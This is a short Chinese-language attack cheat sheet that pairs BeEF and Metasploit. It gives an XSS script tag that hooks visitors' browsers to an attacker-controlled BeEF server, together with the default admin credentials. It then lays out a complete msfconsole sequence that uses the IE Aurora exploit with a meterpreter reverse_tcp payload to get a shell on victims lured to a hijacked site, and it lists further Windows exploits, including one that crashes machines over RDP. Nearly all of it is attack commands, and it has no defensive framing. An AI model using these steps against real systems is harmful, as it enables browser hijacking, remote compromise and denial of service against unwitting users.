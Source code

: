 # beef-xss
## XSS反弹
`<script> alert("hello XSS")</script>` \
## beef-xss 和 msf框架 组合
### 环境要求：
一台kali: 192.168.200.1
### 劫持
运行beef
`cd /use/share/beef-xss` \
`./beef` \
会出现一个攻击地址和一个管理地址
`192.168.200.1:3000/hoos.js` /攻击地址 \
`<script>src="192.168.200.1:3000/hoos.js"</script>` /上传这个，有人点击，你就可以通过beef管理进行劫持 \
`192.168.200.1:3000/ui/panwl` /管理地址，账号密码都是beef \
里面有一个是redirect选项是网站劫持，这个配合msf IE漏洞，很好用
### 漏洞利用
`msfconsole` /运行msfconsole \
`use windows/browser/ms10_002_aurora` /使用模块 \
`set PAYLOAD windows/meterpreter/reverse_tcp` /设置攻击载荷 \
`show options` /显示设置参数 \
`set SRVHOST 192.168.200.1` /制作的网站地址 \
`set SRVPORT 7777` /制作的连接的端口 \
`set URIPATH /` /运行的环境目录 \
`set LHOST 192.168.200.1` /侦听的地址 \
`set LPORT 4444` /映射到的地址 \
`run` /制作 \
将生产的网址通过劫持网站访问，就可以拿到meterpreter,即拿到shell
### IE漏洞
ms10_018 \
ms10_046 \
ms12_004 \
ms08_067 /比较老的入侵漏洞 \
ms12_020 /通过3389，搞蓝屏 \

